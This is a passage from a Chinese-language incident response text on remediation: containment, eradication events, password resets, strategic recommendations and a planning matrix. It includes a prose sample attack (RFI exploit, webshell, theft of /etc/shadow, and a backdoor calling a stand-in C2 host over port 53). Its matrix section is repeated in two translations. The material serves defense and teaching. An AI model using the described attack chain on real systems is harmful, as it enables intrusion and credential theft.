  1*. 移除攻击者对托管财务应用的服务器的网络访问权限。* 一种方法是实施访问控制列表（ACL）以防止除一个系统外的所有系统与服务器交互。该系统被设定为“跳转”系统，需要双因素身份验证，并且只允许来自本地账户的登录。为那些必须与财务应用进行交互的少数用户创建本地账户。

  2*. 移除攻击者对财务应用进行身份验证的能力。* 这意味着更改所有能够访问财务应用的用户账户的密码。

  1. *要求两人合作来创建和授权ACH交易。* 这意味着某些用户账户能够创建ACH交易，其他用户账户可以授权ACH交易，但是没有账户能够同时执行这两个操作。
  2. *为所有ACH交易实施通知机制。* 财务应用将向一组指定用户发送电子邮件，通知他们在创建和授权ACH转账所需的每个重要步骤中的情况。

  刚才讨论的遏制计划采取了合理的措施，以消除攻击者对托管财务应用的服务器的访问权限。通过实施网络ACL和仅允许双因素身份验证和本地账户访问的跳转系统，已经实现了这一目标。然而，以防万一公司忽视了攻击者可能继续访问服务器的方法，还建立了其他控制措施。这与深度防御（或分层保护）的概念相同。通过更改财务应用的所有用户账户密码，你迫使攻击者重新获取凭据。此外，通过要求两个唯一的用户账户来创建和批准ACH交易，你迫使攻击者了解哪些账户可以执行每个操作，然后至少破坏每种类型的一个账户。最后，通过在财务应用上实施监控，公司的财务团队能够检测到异常的ACH交易活动。

  还有一个关键控制措施没有讨论到。你有注意到吗？如果攻击者在具有直接互联网访问权限的受限财务环境中的某个系统上安装了后门，那么攻击者可能会继续访问财务应用，并重新获取继续进行恶意活动所需的账户。为了应对这种可能性，应该实施ACL，只允许财务应用服务器的网络流量与明确需要用于业务的系统进行通信。这将防止攻击者可能安装的后门与其C2服务器进行通信。请记住，遏制计划需要尽可能全面，以使攻击者无法继续进行恶意活动，并使公司能够宣称特定的恶意活动已经停止的具体日期。

  在全面了解受损范围之前，通常会制定和实施遏制计划。这通常意味着你采取过度谨慎的方法，实施临时严格的措施，在进行全面修复后放松这些措施。之后实施的其余修复工作应着重于消除攻击者对环境的访问权限，并加强环境以防止未来的受损。全面的修复工作将实施更可持续的安全措施，以增强遏制计划所实施环境的安全性。

  - 注：

    一旦实施了遏制计划，应急响应团队应预期攻击者的反应。在实施遏制计划的同时，修复团队应并行实施适当的日志记录、监控和警报功能，以便检测和应对遏制环境之外的额外恶意活动。

因为我们正在讨论现实生活中的情景和操作问题，所以我们应该解决当出现问题时会发生什么。假设在实施遏制计划五天后，调查团队发现攻击者仍然可以访问财务应用程序。这意味着修复团队可能忽视了攻击者可以使用的一种访问财务应用程序的方法。为了妥善处理这种情况，调查和修复团队应该共同合作，调查攻击者是如何保持或重新获得对财务应用程序的访问权限的。一旦确定了这一点，修复团队将立即实施新的遏制措施。如果公司发布了一个公开声明，称他们的环境在某个日期之前已得到控制，他们可能需要修订这些信息。 团队制定并实施了适当的部署或遏制计划后，下一步是制定根除计划。下一节将讨论这个计划，它旨在从您的环境中消除威胁。

### **制定根除行动计划**

根除行动是在短时间内实施的行动，旨在从环境中清除攻击者。根除事件，或者是指在实施根除行动的短时间内，应该设计得使受害组织在事件结束时完全恢复过来。与立即遏制计划不同，立即遏制计划旨在剥夺攻击者对特定网络段、应用程序或数据的访问权，而根除计划旨在消除攻击者对整个环境的访问权。一个全面的根除事件在很大程度上依赖于调查团队全面勘察环境的能力，同时也依赖于组织全面实施根除计划的能力。根除事件的目标如下：

- 消除攻击者访问环境的能力。

- 阻止攻击者访问被入侵的系统、账号和数据。

- 消除攻击者用于访问环境的攻击向量。

- 恢复组织对其计算机系统和用户账号的信任。

- 注意：

  根除计划应设计时考虑到攻击者可能会试图重新获取对环境的访问权。该计划应考虑到攻击者在根除事件期间和之后可能进行的尝试。它还应考虑到攻击者可能不仅仅是尝试以先前使用的方法访问环境，而且可能搜索并利用其他漏洞。该计划还应考虑到攻击者可能采取的任何报复行动，以此回应对环境访问权的失去。

以下列出了常见的根除行动示例；然而，由于每个事件都不同，可能会采取其他行动：

- 在根除事件期间断开受害组织与互联网的连接
- 阻止恶意 IP 地址
- 屏蔽（或汇聚）域名
- 更改所有用户帐号密码
- 实施网络分割
- 缓解允许攻击者最初访问环境的原始漏洞
- 重建受损系统

在大多数组织中，周末是进行根除事件的好时机，因为对业务的干扰最小。选择根除事件的时间框架时，还要考虑攻击者的标准工作时间（如果已知）。在预期低攻击者活动的时间段内实施根除时间，增加了在攻击者意识到已失去对环境的访问之前成功实施根除计划的机会。

根除事件的持续时间越长，攻击者重新获得对环境的访问的可能性就越大。事件的严重程度将决定根除行动的深入程度，但通常组织在根除事件期间断开互联网连接，以确保攻击者无法访问环境并干扰根除事件。想象一下，如果您花费一个月计划一个大型根除事件，却发现攻击者在根除事件期间使用未被发现的后门来入侵其他系统，那将是多么浪费时间和资源。

如果攻击者在根除事件期间重新获得对环境的访问，处理团队可以采取几种潜在的应对措施。一种应对措施是迅速调查和限制重新入侵。调查团队应同时进行工作，以确定攻击者重新获得访问的方法，并采取措施加以缓解。一旦攻击者的访问得到缓解，根除事件可以继续进行。另一种应对措施是延迟根除事件，并重新启动事件响应过程。当攻击者获得访问权限并且侵害的系统数量超过计划根除事件期间可以合理修复的系统时，这种应对措施更为合适。

根除计划通常是修复工作中最容易设计的部分，因为可以采取有限的行动全面清除环境中的攻击者。例如，为了修复受损的系统，根除计划将包括 1）从可靠的媒体重建系统，或者 2）实施详细的清除指令来清除系统中的恶意软件。此外，为了恢复受损的凭证，根除计划将包括 1）更改用户帐号密码，或者 2）禁用/删除用户帐号并发放新帐号。不幸的是，仅因为根除计划易于设计，并不意味着它们易于实施——实际上恰恰相反。

不正确的规划是根除事件不完全或失败的最大原因。一般来说，事先花费更多时间规划根除事件，实施根除行动所需的时间就越少，出错的事情就越少。例如，您的组织可能决定在事件期间断开与互联网的连接。然而，大多数组织无法完全断开与互联网的连接——业务应用程序需要保持全天候运行，以确保业务的持续进行（想象一个大型国际银行在整个周末都离线）。事实上，互联网连接将需要允许到达一个或多个 DMZ 中的某些系统。因此，修复团队需要采取额外措施：

- 确保那些业务关键系统无法访问其特定DMZ之外的系统。
- 各地理站点之间的网络连接必须保持完好，以便各个IT团队能够实施根除行动。
- 需要评估业务对业务连接，确定哪些连接可以断开，哪些需要保持运行。对于需要保持运行的业务对业务连接，根除团队需要确保互联网流量不能通过该连接传输。
- 远程VPN连接可能需要保持运行，以便IT人员可以从远程位置工作并执行根除事件行动。然而，在根除事件期间，允许连接到VPN的用户帐户数量应该限制为必要的IT人员、调查和根除团队成员。此外，应禁用VPN的分流功能，以提供额外的安全层级。
- 在任何系统被允许连接到受损环境（远程或办公室）并参与根除事件之前，应该验证其是否干净。

根据这个列表，可以看出在运营环境中实施听起来简单的行动，比如断开与互联网的连接，实际上可能非常困难。

另一个常常难以实施的根除事件行动是更改所有用户帐户密码。这包括所有操作系统（如Windows、Linux和Mac用户帐户）、嵌入应用程序的用户帐户、数据库帐户以及攻击者针对的网络设备帐户（如防火墙、IDS/IPS、路由器和交换机）。请记住，目的是防止攻击者使用所有窃取的凭据，而不仅仅是调查团队发现正在使用的凭据。此外，如果根除团队有时间，对所有用户帐户进行审计并将其与物理用户帐户进行匹配是一个好主意。所有用户帐户至少包括以下帐户：

- 标准的Windows、Linux和Mac用户账户
- 服务账户
- 本地管理员或root账户
- 与本地凭据数据库集成的任何其他账户（无论是Microsoft Active Directory、其他LDAP解决方案还是NIS）
- 应用程序账户
- 网络设备账户
- 数据库账户

最后三种账户——应用程序、网络设备和数据库账户——在根除事件中可能不需要更改。改变“所有”用户账户密码的工作量应该与整治团队实施所有建议的能力相关，并基于攻击者的活动重点。强制更改用户账户密码通常是一项简单的任务。最大的关注点是如何处理攻击者可能是登录并更改密码的人这种可能性。这是一个难题，有不同的解决方法。虽然我们不建议这样做，但你可以简单地接受风险。这种方法的吸引力在于它很容易实施，因为你只是假设其他根除措施应该确保攻击者无法继续访问环境。你还可以为所有账户生成随机密码，并使用适当的方法向用户提供新密码。另一种选择是要求用户致电帮助台，以授予他们VPN访问权来更改密码。

更改服务账户密码也很简单；然而，需要进行计划以了解更改这些密码的影响。在更改服务账户密码之前，你需要确定哪些应用程序使用了服务账户，然后识别所有安装了该应用程序的系统。这是因为服务账户密码需要在使用该服务账户的每个系统上以及在中央目录中更改。在计划过程中几乎肯定会有系统或应用程序被遗漏。应对因更改服务账户密码而出现问题的系统和应用程序应有相应的应急计划。许多时候，这些问题直到根除事件完成并且应用程序再次正常运行后才会被发现。

在环境中将所有系统的本地管理员密码更改为独特的密码也是一项非常具有挑战性的任务。一些组织决定接受这些账户带来的风险，要么保持密码不变，要么为所有本地管理员账户实施单一密码。一些组织开发自己的脚本来设置（并跟踪）所有本地管理员账户的唯一密码，而其他组织则实施凭据库和管理软件，在所有系统上随机生成密码，并要求管理员签出和签入本地管理员账户的密码。还有一些组织禁用本地管理员账户的远程网络和RDP登录，或者完全禁用该账户。在你的组织中保护本地管理员账户的最佳方法将取决于环境和你的组织所能容忍的程度。

制定根除计划时，还需考虑如何正确备份重建的受损系统中的用户和关键数据。大多数用户都会在其系统上有一些必须备份并恢复到新系统的数据。系统管理员将在其服务器上有一些需要作为根除事件的一部分进行备份和恢复的数据。在需要从受损系统备份数据并恢复到新系统的所有情况下，应由修复团队的成员批准备份的目录和文件，以确保恶意软件不会意外传输到新系统中。我们进行了足够多的根除事件，看到了有公司差点通过意外将恶意软件恢复到用户的系统而重新受到威胁的情况。但是，由于已阻止了所有已知的恶意IP地址并将域名列为黑名单，用户意外执行恶意软件实际上并未重新威胁到环境。如果准备工作成功完成，当恶意软件尝试建立C2连接时，应被安全机制所阻止。

正如我们之前讨论的，计划对于成功的根除事件至关重要。然而，即使是最好的计划也无法保证一切顺利进行。您应该制定因应措施来解决常见的复杂情况，例如：

- 用户度假或出差，未能及时更改密码。
- 用户账户已停用但未被禁用，因此密码从未更改。
- 不属于域的系统不会受到大多数自动密码更改的影响。
- 分配了管理员权限的本地用户账户，但不是标准的本地管理员账户。

修复团队制定根除计划后，需要与领导协调确定执行计划的最佳时间。在下一节中，我们将讨论时间考虑因素和执行策略。

**确定根除事件的时机并执行根除计划**

根除事件的时机对于成功的修复至关重要。如果根除事件执行得太早，调查团队可能没有足够的时间来充分确定受损情况。这可能会导致修复失败，因为攻击者对环境的访问可能没有完全清除（例如，如果漏掉了后门）。如果根除事件执行得太晚，攻击者可能会更改他们的工具、战术和程序（TTP），或者完成他们的任务。如果攻击者更改了他们的TTP，调查团队必须调查这些新活动。如果攻击者完成了他们的任务，企业就会遭受损失（尽管损害可能不会立即显现，比如知识产权盗窃案件）。执行根除事件的理想时机是在调查团队正确确定了受损情况，并且修复团队已经实施了所有或大部分的姿态/封锁行动，并且已经准备好进行事件处理的时候。正确确定受损情况意味着调查团队了解了攻击者的大部分TTP，并且能够可靠地检测到恶意活动。在Mandiant，我们将根除事件的理想时机称为“打击区”。打击区是知识和时间的折中。图17-2描述了这个概念。


确定何时处于“打击区域”可能会很困难 - 这更像是一门艺术而不是科学。通常情况下，我们会寻找以下条件作为我们接近或处于打击区域的良好指标：

- 调查团队相信他们对被侵入环境有良好的可见度，并且了解攻击者的技术、战术和程序（TTPs）。
- 每天（或其他时间段）发现的受损系统数量显著减少。
- 大多数检测到的受损系统包含已知的入侵指标。
- 修复工作已经经过彻底的计划。

正如你所看到的，如果你对环境没有很好的可见性，或者缺乏良好的检测机制，就很难知道何时处于攻击范围，因为你缺少了方程的第一部分，即对攻击者的战术、技术和程序（TTPs）的了解。一些组织选择等到调查团队接近完成工作后再开始计划清除事件。这种方法并不理想，通常会导致计划匆忙或错过攻击范围。清除事件的计划过程应该在事件所有者决定采取补救措施的方法（立即、延迟或综合）后开始，并且在调查进行中应视为一个不断改进的工作，并根据发现的新信息进行相应的修订。这可能看起来是多余的工作，带来的利益可能很少或没有；然而，经验表明，早期计划可以带来更有效的清除工作。

清除事件的时间安排不应在事件所有者认为组织处于攻击范围时决定。相反，在调查和补救工作进行时，应该在事件所有者、调查所有者和补救所有者之间达成初步执行日期的一致。目的是尽量选择一个最终落入攻击范围内的日期，尽管在非常接近或到达攻击范围之前，你不会知道何时处于攻击范围内（这也是为什么我们将这个概念称为一种艺术而不是科学的原因）。一些组织将日期设置在未来的时间，以确保他们做好了充分的准备，但这可能会导致他们超出攻击范围，因为时间过去太长。选择清除事件执行日期最有效的方法是选择一个被认为有一定难度的日期，然后迫使各个团队努力工作以实现这个日期。

如果可能，不要让清除事件的日期推迟。根据我们的经验，一旦组织推迟了清除事件的日期，清除事件就会失去紧迫感，这可能会产生其他副作用。我们曾见过公司无限期地推迟清除事件，直到他们“准备好了”来执行建议的行动。这种思维方式的问题在于，对于应对事件（包括调查和补救）来说，组织永远不会像他们希望的那样做好准备。执行某种类型的补救措施总比不采取任何补救措施要好。此外，一旦清除事件的日期推迟，受害组织更容易开始删除难以实施的清除行动，以执行清除事件。根据我们的经验，这在更改用户帐户密码方面最常见。一旦你推迟了清除事件的执行日期一次，你更有可能再次推迟日期。

清除事件的执行通常是一个过程驱动的过程，执行清除事件包括按照特定顺序实施先前制定的清除行动，并验证它们是否被正确实施。越是在清除事件之前进行了充分的计划，事件就会变得越直接。一个示例的清除事件可能包括以下五个活动：

- 断开与互联网的连接。
- 阻止已知的恶意IP地址并黑洞恶意域名。
- 从网络中移除受损系统并重新构建。
- 更改所有用户账户密码。
- 验证所有根除事件活动。

根除事件的行动项目是按顺序执行的。这意味着一旦根除事件开始，网络团队将首先断开组织与互联网的连接，然后在所有边界路由器实施IP地址阻止，在所有外部DNS服务器实施DNS黑洞。请注意，网络管理员非常重要的一项工作是测试互联网是否被正确断开，并且IP地址阻止和DNS黑洞在所有位置是否正常工作。一种常见的测试方法是尝试浏览合法的网站，尝试通过合法的FTP站点进行ftp（或使用其他常见协议），并尝试从具有自己的互联网出口点的所有位置访问一些已知的恶意IP地址。重要的是，所有主要地理或逻辑站点都执行此测试，以确保错误不会导致根除事件失败。请注意，尝试“ping”合法和恶意域名/IP地址不被视为可接受的测试，因为ICMP数据包可能与TCP/UDP流量处理方式不同，因此可能会出现错误的正/负条件。建议使用netcat和nmap网络工具来测试互联网连接是否已正确断开，ACL是否阻止已知的恶意IP地址，并且DNS黑洞正常工作。大多数组织实施警报，以指示访问已知的恶意IP地址或域名，除了仅阻止IP地址和黑洞域名。这是一个谨慎的步骤，因为这些警报将在组织发现任何被忽略的已知恶意软件的受损系统时发出通知（尽管恶意软件应该被IP地址阻止和DNS黑洞所无效）。

完成了网络行动项目后，系统和应用程序管理员可以开始修复受损的系统。这通常涉及重建受损的系统或根据调查小组提供的说明仔细删除恶意软件。如果重新构建系统，则在将数据恢复到新系统时应非常小心，以确保不会意外重新引入恶意软件。尽管前面的步骤中采取的网络阻塞应该防止恶意软件与其命令和控制服务器通信，但仍存在遗漏的风险。这就是为什么根除事件行动项目按特定顺序实施以及执行所有行动项目的重要性所在——在根除攻击者时，您希望在自己这边拥有每一个优势。

- 注意：

  我们经常被问到是否“清理”受损系统是否足够。不建议清理或删除已知的恶意软件，因为很难确定是否已发现并从受损系统中删除了所有恶意软件。从已知良好的媒体重建受损系统是确保后续修复环境干净的最可靠方法。然而，在某些情况下，需要清除系统中的恶意软件而不是重建系统。例如，当涉及到生产服务器且停机时间意味着业务收入损失，或者攻击者已经入侵了数百或数千个系统时，就会出现这种情况。

一旦被入侵的系统被下线，您的管理员可以开始更改所有用户账户密码。我们之前提到，消除事件的操作按照严格的顺序执行，以确保事件尽可能有效。然而，一旦前面的步骤完成，并且所有被入侵的系统已经关闭或从网络中断开连接，攻击者就不再能够访问您的环境。在那时，可以开始着手下一个行动项目。换句话说，在开始更改用户账户密码之前，并不需要重建所有被入侵的系统，只需将被入侵的系统从网络中移除（如果适用，还要禁用无线连接）。这将有助于减少执行消除事件所需的时间。正如本章之前提到的，更改用户账户密码往往是消除事件中最困难的部分，也需要最长的时间。这个行动经常会引发最多的意外问题，因此您应该尽早开始该行动，同时不会妨碍消除努力。

这个示例中的最后一个消除事件行动是验证修复活动是否适当完成，之后可以重新连接到互联网。验证所有被入侵系统中的恶意软件是否被清除，只需查找通过调查期间使用的任何方法来寻找威胁指标。通常情况下，验证系统是否被正确修复将识别出一小部分被意外忽视、错误重建或根本未重建的系统。根据我们的经验，一些管理员会试图通过清除被入侵系统中的恶意软件来节省时间，而不是重建系统（无论具体指令是什么）。当搜索威胁指标时，可能仍然存在恶意软件的迹象，例如注册表中的条目或文件系统上的配置文件，这些都很容易发现。最后，验证所有用户账户密码是否已更改是很直接的。如果受害组织使用Microsoft Active Directory，修复团队可以轻松验证所有密码是否已设置为过期或使用原生的Microsoft Active Directory工具进行更改。为了确定本地管理员、数据库和应用程序（如果适用）的用户账户密码是否已更改，管理员应采取抽样验证的方法。

在消除事件中，沟通至关重要。有效的沟通将需要让每个管理员组知道何时可以开始下一个行动项目以及何时已完成之前的行动项目。适当的沟通还需要解决管理员遇到的问题，并帮助遇到困难的管理员。无论准备得多么充分，您可能在消除事件期间遇到意外的挑战。有效的沟通将确保这些意外的挑战在干扰整个消除事件之前得到快速解决。

在消除事件之前，修复负责人应确保建立一种沟通媒介。这种沟通媒介应在整个消除事件的持续时间内可用。一种策略是在每天的固定时间段内，所有管理员和修复团队成员都可以致电讨论进展情况。另一种策略是在整个消除事件的持续时间内保持一个会议桥接，以便团队中的所有成员可以实时进行更新。

消除团队通常包括的成员不仅仅是修复团队。通常，所有网络、系统和应用程序管理员都需要在修复团队的指导下参与消除事件。不是所有修复团队的成员都需要在整个消除事件中工作（例如公共关系、人力资源和法律成员），但所有技术人员应该参与或在整个事件期间保持可用。在消除事件之后的几天里，确保您的服务台人员有能力与修复团队联系，以报告可疑活动或失败的应用程序。

### **制定战略建议**

战略建议是对组织整体安全状况至关重要的行动，但不能在消除事件之前或期间实施。一些高层次的战略建议示例包括在整个环境中升级到更安全的操作系统，减少组织中的用户权限，实施严格的网络分割和实施出口流量过滤。战略建议通常很难实施，因为它们具有破坏性的特点，但提供了显著的安全增强。

战略建议通常是在修复的前两个阶段中制定的。例如，修复团队的成员可能会制定一个全面的网络分割计划，以阻止攻击者访问受限环境的部分。这个计划可能需要您将关键数据移动到一系列服务器上，然后将这些服务器放置在受限环境中。此外，该计划可能要求建立凭证，并为需要与该数据交互的用户部署双因素身份验证。很可能，这个项目需要比事件期间能够节约的时间、计划和资源更多。这个行动是一个完美的建议；这个行动对组织的安全有益，但在短时间内无法实施。请注意，在消除事件之后，修复团队不应花费大量时间制定战略建议。在制定战略建议时，修复团队应只关注从高层次描述行动项目。具体的战略行动细节应由组织专门组建的跨职能团队来制定。这些团队将更专业、更了解计划和实施每个战略行动所需的学科。

重要的是，修复团队应记录所有建议的战略行动，即使他们认为组织不愿意实施这些建议。组织可能会在以后决定实施难以实施的战略建议。其他时候，高管可能要求对战略建议进行简报，并为具有最大益处的行动分配经费和资源。因此，战略建议应始终按优先顺序进行文档化，将最减少组织风险的建议列在前面。

团队完成所有修复行动后，还有最后一步是修复流程的一部分，即开展经验教训。在下一节中，我们将讨论为什么这是该流程如此重要的一部分。

### **记录所学到的教训**

在每次重要的修复工作之后，您应该记录所学到的教训。您的组织将定义什么是“重要的修复工作”，但通常情况下，您应该为任何需要大量参与、计划和实施的修复工作创建所学到的教训。简单的修复工作，比如因病毒而重建一个系统，很可能不需要记录所学到的教训。

您应该以标准化、结构化的格式记录所学到的教训，并将其存储在易于访问和集中的位置。建立结构，也就是模板，将确保以一致的方式记录内容。此外，所学到的教训应该易于搜索和浏览，可以使用标签、类别或其他适当的方法来组织文档。这也将有助于防止重复的所学到的教训。维基和文档管理系统是存储和索引所学到的教训的绝佳位置。

例如，在为所有用户帐户（包括目录、系统和应用程序帐户）实施全企业范围的密码更改之后，创建所学到的教训将非常有用。您的修复团队将不得不解决许多技术和非技术问题来实施这个修复措施。一些需要解决的技术挑战包括如何在不使用目录的情况下更改所有Unix密码，如何为所有Microsoft Windows系统上的本地管理员帐户创建唯一密码，如何确定所有硬编码用户名和密码的脚本和应用程序，以及如何确定所有使用特定服务帐户的服务帐户，等等。一些非技术问题包括识别在用户帐户被使用的环境中使用的所有系统、应用程序和脚本，赢得高管和业务层对这个修复措施的支持，并让标准用户在最大程度上遵守这个行动项。

创建所学到的教训文档，并将所有文档和为支持这个修复行动项创建的自定义脚本存储起来，将极大地减少如果修复团队需要计划另一次全企业范围的密码更改时所需的时间和工作量。您应该在修复工作结束后尽快创建所学到的教训，以确保所有教训都被准确记录。我们看到一些修复团队等待修复工作结束后几天甚至几周才制定他们的所学到的教训。到那时，修复团队可能会忘记包含信息，或者难以从其他修复团队成员那里收集必要的信息。您的修复负责人应确保修复团队理解创建所学到的教训是修复工作的强制性部分。这通常会鼓励团队成员在进行修复工作时做笔记，以使所学到的教训过程更加顺利。

- 注意：

  这可能是一个显而易见的观点，但请避免在连接到企业域或目录的系统上存储关于先前调查的信息。这种信息本质上是您的事件响应（IR）团队运作的蓝图，对未来攻击者非常有用。如果必须在线上存储它，请启动由IR团队管理的独立服务器和存储。

既然我们已经介绍了修复过程的所有八个步骤，让我们看一个通用示例，展示如何应用这些步骤。在下一节中，我们将将修复步骤与规划矩阵结合起来，以说明修复的进展。

### **将其整合起来**

修复过程具有挑战性，因为有很多情况相关问题是您无法控制的。在Mandiant，我们使用攻击生命周期和修复规划矩阵的概念作为制定全面修复计划的基础。您应该已经熟悉攻击生命周期的概念，因为我们在本书的第一章中介绍过。修复规划矩阵的概念可能是新的，所以我们将在这里进行介绍。我们开发这些概念是为了更好地描述攻击的各个阶段，并确保修复计划是全面的，涵盖了攻击的所有领域。回顾一下，攻击生命周期由七个功能区组成，是大多数入侵常见的。请注意，并非所有七个区域都始终是攻击的一部分；然而，这个生命周期可以调整以适应任何事件。攻击生命周期如下所示：


构建一份综合性的补救计划，旨在针对攻击生命周期中讨论的某些或所有区域对抗攻击者，通过将事件分解为七个功能区域，更容易进行可视化。在Mandiant，我们使用下面展示的补救计划矩阵来规划全面的补救工作：


补救计划矩阵的创建旨在帮助设计一个计划，以保护免受威胁（预防），检测攻击者活动（检测）并从环境中根除威胁（响应）。通过专注于攻击生命周期的每个阶段的三行（预防、检测和响应）（在图中表示为列），并理解事件响应的目标，您的补救团队可以制定一个全面的计划，解决组织中最关键的安全漏洞。补救计划矩阵还有助于集思广益可能的补救措施，稍后在设计补救计划时可以对其进行改进。

- 注意：

  理解何为关键资产——您要保护的内容是至关重要的。关键资产有三种类型：数据、人员和系统。这种理解将增加成功的补救工作和更有针对性的战略行动的可能性。

让我们通过一个使用攻击生命周期和补救计划矩阵概念的示例来进行说明。假设攻击者利用了公开可访问的运行LAMP堆栈（Linux、Apache、MySQL和PHP）的Web服务器上的远程文件包含（RFI）漏洞。攻击者上传了一个Webshell，以Apache用户帐户的特权访问受损的Web服务器。Apache用户帐户位于wheel组中，因此具有root特权。攻击者窃取了/etc/shadow文件，破解了root用户的弱密码，然后使用root帐户和Secure Shell来入侵DMZ中的其他系统，首先是后端数据库系统。攻击者还安装了与[ftp.evilattacker.net](http://ftp.evilattacker.net/)的命令和控制服务器通过TCP端口53进行通信的后门。然而，由于进行了适当的分割，攻击者无法访问内部环境。图17-3是这个样本RFI攻击的图形描述。


现在让我们将补救计划矩阵应用于刚才描述的场景。在这里，我们列出了攻击生命周期的每个阶段，包括该阶段发生的摘要，然后为每个矩阵类别（预防、检测和响应）列出了一些想法：

构建一个全面的修复计划，旨在应对攻击者在攻击生命周期中讨论的某些或所有领域的行动，通过将事件分解为七个功能区域，更容易进行可视化。在Mandiant，我们使用下面展示的修复规划矩阵来规划全面的修复工作：


修复规划矩阵的创建旨在帮助设计一份计划，以防范威胁（预防），检测攻击者活动（检测）并从环境中消除威胁（响应）。通过专注于每个攻击生命周期的三个行（预防、检测和响应）（在图中表示为列），并理解事件响应的目标，您的修复团队可以制定一份全面的计划，解决组织中最关键的安全漏洞。修复规划矩阵还有助于集思广益，提出可能的修复措施，稍后在设计修复计划时进行改进。

- 注意：

  了解什么构成关键资产-您要保护的内容是至关重要的。关键资产有三种类型：数据、人员和系统。这种理解将增加成功修复工作和更有针对性的战略行动的可能性。

让我们通过使用攻击生命周期和修复规划矩阵的概念来进行一个示例。假设攻击者已经利用了一个远程文件包含（RFI）漏洞来攻击一个公开可访问的运行LAMP堆栈（Linux、Apache、MySQL和PHP）的Web服务器。攻击者上传了一个Webshell，该Webshell授予以Apache用户帐户权限访问受损Web服务器的权限。Apache用户帐户位于wheel组中，因此具有root权限。攻击者窃取了/etc/shadow文件，破解了root用户的弱密码，然后使用root帐户和安全外壳（Secure Shell）入侵了DMZ中的其他系统，从后端数据库系统开始。攻击者还安装了一个与[ftp.evilattacker.net](http://ftp.evilattacker.net/)上的命令和控制服务器通过TCP端口53进行通信的后门。然而，由于有适当的分割，攻击者无法访问内部环境。图17-3是对此示例RFI妥协的图形描述。


现在让我们将修复规划矩阵应用于刚才描述的情景。在这里，我们列出了攻击生命周期的每个阶段，包括该阶段发生的摘要，然后为每个矩阵类别（预防、检测和响应）列出了一些想法：

- **阶段1：初次妥协** 攻击者利用RFI漏洞。

  - **预防** 进行彻底的代码审查，修复不安全的代码，并混淆

    Web服务器版本。

  - **检测** 实施Web应用程序防火墙（WAF）或其他入侵检测系统（IDS），调整以查找基于Web应用程序的恶意活动。

  - **响应** 进行彻底的代码审查。

- **阶段2：建立立足点** 攻击者在服务器上创建Webshell。

  - **预防** 限制Apache用户仅能在特定目录下创建文件，并配置服务器禁止在这些目录中进行服务器端脚本编写。
  - **检测** 实施基于主机的入侵检测系统（如Tripwire）以监控文件系统的变化。
  - **响应** 从系统中删除恶意文件。

- **阶段3：提升权限** 攻击者利用Apache用户帐户的权限访问/etc/shadow文件，然后破解root用户的弱密码。

  - **预防** 从Apache用户中删除root权限，在受限环境中运行Apache，为root用户设置强密码，并在所有DMZ系统上实施唯一的root密码。
  - **检测** 实施基于主机的入侵检测系统（如Tripwire）以监控文件系统的变化。
  - **响应** 更改DMZ中所有系统上所有用户的用户帐户密码，并更改DMZ中所有系统的root密码。

- **阶段4：内部侦察** 攻击者可能已经对本地子网进行了端口扫描或ping扫描，以发现其他系统。

  - **预防** 实施访问控制列表（ACL）以限制系统之间的通信，除了用于业务功能的端口。
  - **检测** 实施规则调整的IDS，以监视从一个系统到另一个系统的非业务流量。
  - **响应** N/A

- **阶段5：横向移动** 攻击者使用root帐户通过安全外壳（SSH）登录到远程系统。

  - **预防** 禁止远程root登录，实施ACL以限制系统之间的通信（除了用于业务功能的端口），为root用户设置强密码，并在所有DMZ系统上实施唯一的root密码。
  - **检测** 实施规则调整的IDS，以监视从一个系统到另一个系统的非业务流量。
  - **响应** 如果未发现内部侦察的痕迹，则调查子网中的每个系统。

- **阶段6：保持存在** 攻击者在系统上安装后门。

  - **预防** 实施grsecurity/PAX以防止代码注入，使用SELinux增强安全限制，并禁止来自DMZ系统的出站连接。
  - **检测** 实施基于主机的入侵检测系统（如Tripwire）以检测文件系统的更改，并实施网络IDS以查找DMZ系统的出站流量连接。
  - **响应** 从系统中删除恶意文件并阻止对恶意域名的出站访问。

- **阶段7：完成任务** 在这个例子中，我们不知道攻击者的任务是什么。

  - **预防** N/A • **检测** N/A • **响应** N/A

  总结一下，以下独特的列表涵盖了此头脑风暴会议的所有潜在补救措施：

- **预防** 进行彻底的代码审查，修复不安全的代码，并混淆 web服务器版本。

- **检测** 实施Web应用防火墙（WAF）或其他入侵检测系统（IDS），调整以检测基于Web应用的恶意活动。

- **响应** 进行彻底的代码审查。

- 混淆web服务器版本。

- 修复不安全的代码。

- 进行彻底的代码审查。

- 实施WAF或其他IDS，以检测基于Web应用的恶意活动。

- 禁止Apache用户在特定目录中创建文件。

- 实施基于主机的入侵检测系统（例如Tripwire）来监控文件系统变化。

- 从系统中删除恶意文件。

- 从Apache用户中删除root权限。

- 在受限环境中运行Apache Web服务器。

- 为特权用户设置强密码。

- 在所有DMZ系统上设置唯一的root密码。

- 更改DMZ中所有系统上所有用户的用户账户密码。

- 实施ACL以限制系统之间的通信（除了业务功能所需的端口）。

- 实施IDS并调整规则，以监视系统之间的非业务流量。

- 实施IDS并调整规则，以检测DMZ系统的出站连接。

- 禁止远程root登录。

- 如果没有发现内部侦察的痕迹，则调查子网中的每个系统。

- 禁止DMZ系统对外部连接。

- 阻止对恶意域名的出站访问。

在这一点上，团队需要决定将实施哪些行动项目以及它们在整体整治策略中的位置。鉴于这种情况，事件所有者可能会选择延迟行动的整治方向。请记住，事件所有者通常在确定整治方法时并没有所有被入侵的事实。延迟行动的整治方法通常是最安全的方法，特别是如果事件所有者认为入侵是重大的。延迟行动的整治方法将包括三个阶段：姿势调整行动，根除行动和战略建议。考虑到这种情况，让我们来看看在每个阶段你可能会做什么：

- **姿态行动** 下面的补救行动（来自头脑风暴会议）可以作为姿态行动项目实施：

- 混淆 Web 服务器版本。

- 修复不安全的代码。

- 实施基于主机的入侵检测系统（如 Tripwire）来检测对文件系统的更改。

- 监控关键系统文件的访问。

  其他姿态行动项目您应该考虑，尽管它们在头脑风暴会议中没有被提到，因为它们与当前事件没有直接相关性，包括：

- 将所有系统日志数据重定向到 SIEM。

- 在所有系统上安装缺失的补丁。

- 从 DMZ 中的所有服务器中删除不必要的程序。

  在大多数情况下，这里列出的行动不会让攻击者意识到他们已经被发现并正在接受调查。每个姿态行动项目看起来更像是正常的 IT 行动，而不是对攻击者直接采取的措施。

- **清除行动** 可以作为清除行动的实施如下：

  1. 从互联网断开 DMZ 系统的连接。

  2. 通过对恶意域名（[ftp.evilattacker.net](http://ftp.evilattacker.net/)）进行 DNS 黑洞处理，阻止对该域名的出站访问。

  3. 重建被入侵的 Web 服务器：

     a. 从系统中删除恶意文件（请注意，这是通过重建被入侵的 Web 服务器来完成的）。

